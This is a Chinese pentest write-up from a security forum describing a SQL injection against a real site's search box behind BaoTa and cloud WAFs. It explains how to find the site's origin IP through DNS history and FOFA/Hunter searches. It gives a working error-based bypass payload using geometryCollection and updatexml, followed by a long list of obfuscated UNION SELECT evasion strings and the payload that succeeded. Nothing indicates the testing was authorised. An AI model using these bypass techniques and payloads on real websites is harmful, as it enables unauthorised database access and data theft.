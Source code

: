 

# 奇安信攻防社区-记一次SQL注入绕过宝塔+云waf

### 记一次SQL注入绕过宝塔+云waf

话不多说，上干货

## **0x01 多重waf绕过**

注入点搜索框

![](assets/1703831645-579f3bacb474299c3fd227ea82560684.png)

单双引号进行测试  
看看是字符型的还是数字型的，发现是字符型![](assets/1703831645-2dd7db655cad939059bb2e52cb096d09.png)

![](assets/1703831645-5313b6f191fecd8d6a4da71e3a359d89.png)

准备上语句发现有宝塔waf+云waf

![](assets/1703831645-336f881f44961bcbdd277cdb4f7e49a0.png)

![](assets/1703831645-980ece5b1fb23e438794d8b771cf43b2.png)

**0x02 过云waf**

首先看看有无cdn节点

![](assets/1703831645-e75296f1408db8c82b5ae1703801ea15.png)

全球ping

![](assets/1703831645-082267e2763ebaa4dd220ad861babe98.png)

发现这两个没有回应真实ip，就去看看用fofa或者hunter来在真实ip，hunter上面显示183是云厂商肯定是云waf，不能用这个ip

![](assets/1703831645-a35249814d4e26e5116db1248753588d.png)

之后在看fofa上面能不能找到真实ip

![](assets/1703831645-ed9ec442847e9ed707aad672074dbb57.png)发现这个ip跟历史解析记录是同一个c段的

![](assets/1703831645-b713d21bab5be9da8f51200c70709676.png)

然后用拦截云waf的语句来试试，发现无云waf显示

![](assets/1703831645-0cb98f7a8ba263f2042b0a3c25985398.png)

![](assets/1703831645-c40f05f34e3875d96aaa8f88a4d817ec.png)

**找云waf的几种方式**

`1. 通过全球ping``2. 找历史解析记录``3. 通过fofa或者hunter空间引擎来搜索``4.  通过历史解析记录扫c段`

## **0x03 过宝塔waf**

## **1.报错注入**

首先判断出字符型的话，就得去测试’||||’ ‘or+or’的语句，但是我发现他这里只要是在两个or之间出现东西，就一定会触发宝塔waf

![](assets/1703831645-58fcc768787280c5d8b6416cb762750a.png)

当时试了很多思路，发现可以’;%00方法，还有可以加--+注释符的，但是尝试之后只有--+可以正常回显

![](assets/1703831645-30a13d4751ff38ee23a8fe3a619ecfb2.png)

![](assets/1703831645-2c35d4e71403ee90999b4dd40c93fae8.png)

其实这里最初的思路根本不是什么’||||’，这里是按照1’||1=1来测试

![](assets/1703831645-641d2f4952bf9531c4e8de315efc473f.png)

然后尝试想把1=1，后面这个1能不能换成报错函数之类的，发现直接被拦

![](assets/1703831645-35210cfdfc5b4307582c7c187cdfd687.png)

所以我猜测这个是不是有可能把mysql所有的报错函数都给拦了一下，尝试其他的报错函数看看

exp

![](assets/1703831645-3c2b87f4849adbf6329bdced376485c1.png)

floor

![](assets/1703831645-48a110c250fff1436df44529d27d101b.png)

`例如：``Polygon，GeometryCollection，MultiPoint，MultiLineString``我发现这几个都没有过滤，可能就过滤了平常可见的报错函数`

![](assets/1703831645-88cbd89729bfcfa789f501cc12a43aa3.png)

既然这函数可以用，那我们就开始构造语句试试，正常的语句用不了，那我们就玩点不正常的

![](assets/1703831645-10d8612088d341a2e87620ed832736bf.png)

看看这函数怎么搞的，把里面的语句替换成1，看看哪里出了问题，发包，发现他这个1直接爆出来了

![](assets/1703831645-b9b0fb18c6993c380fce42d4f35806a0.png)

尝试能不能select database()这样，把库名搞出来

![](assets/1703831645-d3f1e162b170f3ee1707b5611adfdc3f.png)

发现还是不行  
可能是因为database()后面跟着--没有闭合的原因，加个||’来试试能不能闭合

![](assets/1703831645-468bec648902583bcb9856275bbf2bcb.png)

emmm，还是不行  
既然select database()不行，那就试试再套一层报错函数，看看能不能行

`Pyload：1'||1=geometryCollection(updatexml(1,concat(0x7e,database(),0x7e),1))--+`

发包

![](assets/1703831645-5e9a77b58aaaba0164f9a126d1aa0738.png)

哟西，果然能行，出库名了，成功绕过waf

## **2.联合注入**

直接'ordre by xx --+

正常判断出库名，17正常 18报错

![](assets/1703831645-63e7268d2f97a3b67ce2a57968b0158f.png)

![](assets/1703831645-636624de54cbebd98c3c66ad7949a74b.png)

然后fuzz union select 函数，尝试太多截图就不放了，直接快进到最后一步

```php
/*!%55NiOn*/ /*!%53eLEct*/ %55nion(%53elect 1,2,3)-- - +union+distinct+select+ +union+distinctROW+select+ /**//*!12345UNION SELECT*//**/ /**//*!50000UNION SELECT*//**/ /**/UNION/**//*!50000SELECT*//**/ /*!50000UniON SeLeCt*/ union /*!50000%53elect*/ +#uNiOn+#sEleCt +#1q%0AuNiOn all#qa%0A#%0AsEleCt /*!%55NiOn*/ /*!%53eLEct*/ /*!u%6eion*/ /*!se%6cect*/ +un/**/ion+se/**/lect uni%0bon+se%0blect %2f**%2funion%2f**%2fselect union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A REVERSE(noinu)+REVERSE(tceles) /*--*/union/*--*/select/*--*/ union (/*!/**/ SeleCT */ 1,2,3) /*!union*/+/*!select*/ union+/*!select*/ /**/union/**/select/**/ /**/uNIon/**/sEleCt/**/ /**//*!union*//**//*!select*//**/ /*!uNIOn*/ /*!SelECt*/ +union+distinct+select+ +union+distinctROW+select+ +UnIOn%0d%0aSeleCt%0d%0a UNION/*&test=1*/SELECT/*&pwn=2*/ un?+un/**/ion+se/**/lect+ +UNunionION+SEselectLECT+ +uni%0bon+se%0blect+ %252f%252a*/union%252f%252a /select%252f%252a*/ /%2A%2A/union/%2A%2A/select/%2A%2A/ %2f**%2funion%2f**%2fselect%2f**%2f union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A /*!UnIoN*/SeLecT+  %55nion(%53elect)   union%20distinct%20select   union%20%64istinctRO%57%20select   union%2053elect   %23?%0auion%20?%23?%0aselect   %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect   %55nion %53eLEct   u%6eion se%6cect   unio%6e %73elect   unio%6e%20%64istinc%74%20%73elect   uni%6fn distinct%52OW s%65lect
```

Pyload：

`union+distinctROW+select`

![](assets/1703831645-f6437c66a6b437551ca2d7a135929477.png)

开始构造，pyload如图，发包

![](assets/1703831645-6ee1ffe8381a11c56fb1525b31c2fcd1.png)

成功绕过
